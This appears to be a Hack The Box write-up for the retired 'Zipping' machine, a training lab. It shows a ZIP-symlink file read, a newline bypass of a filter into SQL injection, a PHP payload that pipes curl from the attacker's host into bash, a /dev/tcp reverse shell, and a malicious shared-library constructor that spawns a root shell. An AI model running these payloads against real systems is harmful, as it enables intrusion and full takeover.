

# Hack The Box - Zipping


Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Zipping**. This machine starts with a symlink-based ZIP upload trick that gives me local file read access and source code disclosure, then moves into a SQL injection that lets me write a PHP payload to disk and gain a foothold. From there, a custom root binary leaks enough information to load a malicious shared library and escalate to root.

## Reconnaissance

I began with a full port scan to see what services were exposed on the target.

```bash
sudo nmap -sS -A -p- -o nmap 10.10.11.229
```

The scan showed SSH and HTTP:

```text
22/tcp open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu7.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.54 ((Ubuntu))
```

The web application was a watch store, and it also had a resume upload feature at:

```text
http://10.10.11.229/upload.php
```



## Initial Access

### Zip Symlink Trick

The upload feature accepted ZIP files and unpacked them on the server before letting the user access the extracted PDF again. That made me think about using a symlink inside the ZIP to point at files on the target system.

I created a symlink to the shop source file and zipped it with symlink support enabled.

```bash
ln -s /var/www/html/shop/index.php cv1.pdf
zip --symlinks test.zip cv1.pdf
```

After uploading the archive, the application returned a link to the extracted file.

```text
uploads/4ade37ebac0fcbc357efc4939c4c80bb/cv1.pdf
```

Following that link exposed the contents of `index.php`, which confirmed that the file was being served from the application and not from a real PDF.

The same technique worked for other files too, so I repeated it to pull the rest of the source code:

```bash
ln -s /var/www/html/shop/functions.php cv1.pdf
ln -s /var/www/html/shop/product.php cv1.pdf
ln -s /var/www/html/upload.php cv1.pdf
```

### Source Code Review

The shop `index.php` file showed a very important line:

```php
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
include $page . '.php';
```

That meant the page parameter could be used to include any PHP file on disk, as long as the path resolved correctly.

The `functions.php` file exposed the database credentials:

```php
$DATABASE_HOST = 'localhost';
$DATABASE_USER = 'root';
$DATABASE_PASS = 'MySQL_P@ssw0rd!';
$DATABASE_NAME = 'zipping';
```

The `product.php` file also looked interesting because it contained a weak filter around the `id` parameter. It tried to block non-numeric input with `preg_match`, but the query itself still used the user input directly in SQL:

```php
$stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
```

### SQL Injection

The `preg_match` filter could be bypassed with a line feed. I tested that by sending a payload with newline characters around a non-existent value and ending with a number.

```text
%0Athisfiledoesnotexist%0A3
```

That returned:

```text
Product does not exist!
```

So the filter was bypassed successfully.

Since the page parameter could include arbitrary PHP files and the application was using MySQL, I aimed for a file-write payload. The idea was to use `INTO OUTFILE` to drop a PHP file into MySQL’s writable directory, then load it through the page parameter.

I wrote a simple PHP one-liner that would fetch and execute a shell script from my machine:

```php
<?php system("curl http://10.10.14.153/shell.sh|bash");?>
```

The shell script itself was a basic bash reverse shell:

```bash
/bin/bash -l > /dev/tcp/10.10.14.153/443 0<&1 2>&1
```

I hosted it with a simple web server:

```bash
python3 -m http.server 80
```

Then I used the SQL injection to write the PHP payload to disk.

```text
%0A'%3bselect+'<%3fphp+system("curl+http%3a//10.10.14.153/shell.sh|bash")%3b%3f>'+into+outfile+'/var/lib/mysql/calico3.php'+%231
```

That produced a file in MySQL’s directory. I then accessed it through the page parameter with a traversal path:

```text
GET /shop/index.php?page=..%2f..%2f..%2f..%2f..%2fvar%2flib%2fmysql%2fcalico3
```

That caused the target to load my PHP file, fetch `shell.sh`, and execute it, which gave me a reverse shell.

## Privilege Escalation

Once I landed on the box, I checked sudo privileges.

```bash
sudo -l
```

The output showed that the user could run a custom binary:

```text
/usr/bin/stock
```

The binary was awkward to use over the shell because some of the output was not displayed properly, so I added my SSH key to `authorized_keys` and reconnected through SSH to make interaction easier.

```bash
echo 'ssh-rsa <SNIPPED> kali@kali' > ~/.ssh/authorized_keys
ssh -i ~/.ssh/id_rsa rektsu@10.10.11.229
```

When I ran the binary again, it prompted for a password. Rather than guessing blindly, I checked the strings inside the binary.

```bash
strings /usr/bin/stock
```

That revealed the password:

```text
St0ckM4nager
```

I then used `strace` to watch what the binary was doing in the background.

```bash
strace /usr/bin/stock
```

That exposed an important detail: the binary attempted to load a shared library from the user’s config directory:

```text
/home/rektsu/.config/libcounter.so
```

Since I could place my own library there, I created a malicious shared object that runs as root when loaded.

### Malicious Library

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

static void vuln_func() __attribute__((constructor));

void vuln_func() {
    setuid(0);
    setgid(0);
    system("/bin/bash -p");
}
```

I compiled it as a shared library:

```bash
gcc -shared -o libcounter.so -fpic exploit.c
```

Then I placed it in `/home/rektsu/.config/` and ran the stock binary again with sudo. After entering the password, the constructor executed and spawned a root shell.

From there I collected the final flag.

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Inspect the upload feature** — find the ZIP resume upload endpoint.
- **Abuse symlinks** — upload a ZIP containing a symlink to a PHP source file.
- **Read source code** — disclose `index.php`, `functions.php`, and `product.php`.
- **Find credentials** — recover the MySQL username and password.
- **Bypass the filter** — use newline characters to defeat the `preg_match` validation.
- **Exploit SQL injection** — write a PHP web shell to MySQL’s writable directory.
- **Trigger code execution** — call the dropped PHP file through the page parameter.
- **Gain a shell** — obtain foothold on the box.
- **Check sudo rights** — discover the custom `/usr/bin/stock` binary.
- **Reverse engineer the binary** — extract the password with `strings`.
- **Trace library loading** — see that it loads `libcounter.so` from `~/.config`.
- **Drop a malicious shared object** — compile a constructor that spawns root bash.
- **Escalate to root** — run the binary with sudo and capture the final flag.
